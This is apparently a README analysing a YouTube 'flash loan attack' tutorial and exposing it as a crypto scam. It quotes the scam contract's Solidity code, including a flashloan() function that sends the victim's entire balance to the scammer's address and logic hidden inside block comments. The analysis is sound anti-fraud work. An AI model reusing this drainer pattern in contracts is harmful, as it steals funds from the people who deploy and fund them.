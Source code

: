 # Flash Loan Scam on YouTube
Analysis of "flash loan attack" from YouTuber https://www.youtube.com/watch?v=HynfsKoFlaw&amp;t=105s

## Background

The YouTuber "Crypto Academy" https://www.youtube.com/channel/UCgiMBbCjQnaf2q3_cs06KOw  posted a video on how to orchestrate a FlashLoan attack.  I decided to verify the claims of this video by inspecting the code. This is my analysis of the video with a review of the code.

## Concern 1:  Code on GhostBin
The attack code is on GhostBin, an anonymous file sharing platform not GitHub or GitHub gist. 

![Screenshot from 2021-07-05 10-57-20](https://user-images.githubusercontent.com/8411406/124406464-c7a78c00-dd84-11eb-9346-c34d5901b30a.png)

## Concern 2:  Code on IPFS
From the GhostBin code the contract imports a contract from IPFS at QmSPEmnJEVjRbtmdcbeApHAVFVYGT4Lefrp45Ca2QK5923.  This obfiscates the code from anyone wanting to inspect what the contract does.  I have included the IPFS code in this repo to inspect. 

## Conern 3:  Bad / unknown addresses
In the IPFS file LN 128 references the contract `0x9c7770E88dd4c4F972283E97B4FeBD2991e0E05B`.  This does not exist on the Ethereum blockchain.   https://etherscan.io/address/0x9c7770E88dd4c4F972283E97B4FeBD2991e0E05B

![Screenshot from 2021-07-05 11-02-31](https://user-images.githubusercontent.com/8411406/124406453-c2e2d800-dd84-11eb-9cb3-70695158b179.png)
![Screenshot from 2021-07-05 10-56-40](https://user-images.githubusercontent.com/8411406/124406486-d42be480-dd84-11eb-9dd4-6c875167c8bb.png)

# Inspecting the code
After downloading the IPFS file [QmSPEmnJEVjRbtmdcbeApHAVFVYGT4Lefrp45Ca2QK5923](/QmSPEmnJEVjRbtmdcbeApHAVFVYGT4Lefrp45Ca2QK5923) there are a lot of concerns!

## Concern 4:  Commented out code
Code in the "Router" contract are commented out and done using the `/*` method instead of `\\` which is technically correct, but easy to miss unless put into an IDE such as VS Code.

```
    function lendingPoolFlashloan(uint256 _asset) public pure {
        uint256 data = _asset; 
        require(data != 0, "Data can't be 0.");/*
        uint amount = 1 BNB;

        ILendingPool lendingPool = ILendingPool(addressesProvider.getLendingPool());
        lendingPool.flashLoan(address(this), _asset, amount, data);*/
    }
```

![Screenshot from 2021-07-05 11-21-05](https://user-images.githubusercontent.com/8411406/124405982-6501c080-dd83-11eb-82dd-779f54591bf4.png)

Lots of methods are simply commented out or do nothing, such as 

```
    //5. Note that the transaction sender gains 3.29 BNB from the arbitrage, this particular transaction can be repeated as price changes all the time.
    function completeTransation(uint256 balanceAmount) public pure {
        require(balanceAmount >= 0, "Amount should be greater than 0!");
    }
```

## Concern 5:  SENDING ALL THE ETH!
In the method "flashloan", LN44 sweeps the entire amount of the Ethereum in the contract.  The premis of the video is to use borrowed funds, not your own ETH to attack defi contracts such as UniSwap.

* NOTE THE AUTHOUR OF THE VIDEO ASKS YOU TO FUND THE CONTRACT.  In otherwords, he will sweep this ETH.  In the video at 5:12 https://youtu.be/HynfsKoFlaw?t=312 the other funds his contract with 0.2 BNB.  This is what will be swept from you.

```
	function flashloan() public payable {
    	// Send required coins for swap
    	address(uint160(router.pancakeSwapAddress())).transfer(
        	address(this).balance
    	);

    	//Flash loan borrowed 3,137.41 BNB from Multiplier-Finance to make an arbitrage trade on the AMM DEX PancakeSwap.
    	router.borrowFlashloanFromMultiplier(
        	address(this),
        	router.bakerySwapAddress(),
        	flashLoanAmount
    	);

    	//To prepare the arbitrage, BNB is converted to BUSD using PancakeSwap swap contract.
    	router.convertBnbToBusd(msg.sender, flashLoanAmount / 2);
    	//The arbitrage converts BUSD for BNB using BUSD/BNB PancakeSwap, and then immediately converts BNB back to 3,148.39 BNB using BNB/BUSD BakerySwap.
    	router.callArbitrageBakerySwap(router.bakerySwapAddress(), msg.sender);
    	//After the arbitrage, 3,148.38 BNB is transferred back to Multiplier to pay the loan plus fees. This transaction costs 0.2 BNB of gas.
    	router.transferBnbToMultiplier(router.pancakeSwapAddress());
    	//Note that the transaction sender gains 3.29 BNB from the arbitrage, this particular transaction can be repeated as price changes all the time.
    	router.completeTransation(address(this).balance);
	}
```

![Screenshot from 2021-07-05 11-28-41](https://user-images.githubusercontent.com/8411406/124406426-b199cb80-dd84-11eb-96ca-13e10c5a344e.png)


# Socials 
## Concern 6: Social profile
The YouTuber only has a few followings and only 3 videos at time of writing on "Flash Loans"
![Screenshot from 2021-07-05 10-55-32](https://user-images.githubusercontent.com/8411406/124405464-11db3e00-dd82-11eb-8346-de1eac423640.png)

## Concern 6: Fake comments
There are profiles such as "Marcus Canton" with no profile image commenting "Amazing I did it twice and earned over 5BNB. Great JOB!!".  Clicking "his" profile shows they only registered a few days ago at time of writing.

![Screenshot from 2021-07-05 11-07-01](https://user-images.githubusercontent.com/8411406/124405446-038d2200-dd82-11eb-80d0-dad085fabfba.png)


# Final words
Stay safe out there!  Visit real meetups like www.bitcoinbrisbane.com.au or meetup.com/bitcoinbrisbane to get real information.

```text
-----BEGIN PGP SIGNED MESSAGE-----
Hash: SHA512

This review of https://www.youtube.com/watch?v=HynfsKoFlaw was performed by lucas@bitcoinbrisbane.com.au
-----BEGIN PGP SIGNATURE-----

iQHRBAEBCgA7FiEE9oqpBrW+YBrEnvg9xh+XXeve3GsFAmDiaqodHGx1Y2FzQGJp
dGNvaW5icmlzYmFuZS5jb20uYXUACgkQxh+XXeve3GsFNgwAx7mB0Qqn8K/zDmzF
DH91d84Bx005wy3EkW7YV1a7slCcp/nS+oDjOXASOoOgCPOY07eMwFMwW8FpPqdJ
8ErhFJ/SDkVYMeANF1O5uDMddHVeQvHqvXOncQdzZRUbIB57WCobFls18WTi7o9h
k3gvhYdfCVyyX3b5nKeDGYGxypTX//+Xuq3tYkCQppBnExbgsu4791DGZJrS3nRJ
WNcc+O21+LUvjH+Om8By4nHt2Y80K1ujJz2RpYi1qGf6hzAKH+LFkixjAFiG4U1C
IiO/ey2iTmb2RVYsYl5YTFlWScHqWzMtpS8+8y5/vJO0cmGZLLEAuCYB+JxXuf2/
uvL8p+LoPCpWfMJTTvviJoffXBXwNsS9Uyva7u6sKM6NIhIaMGit7pHnaXgwt1xb
/NUFY6e4rBdX9DPtuj5H5y4t2iCF3KyaMsvfN46w39RlWQ6SjPMZhN6ndGY+p0Lt
Of2xoI+N1z5kKuL2MLQgzFfAG0yybKGP7aFLbjBAy1AZ8ugU
=mPc6
-----END PGP SIGNATURE-----
```
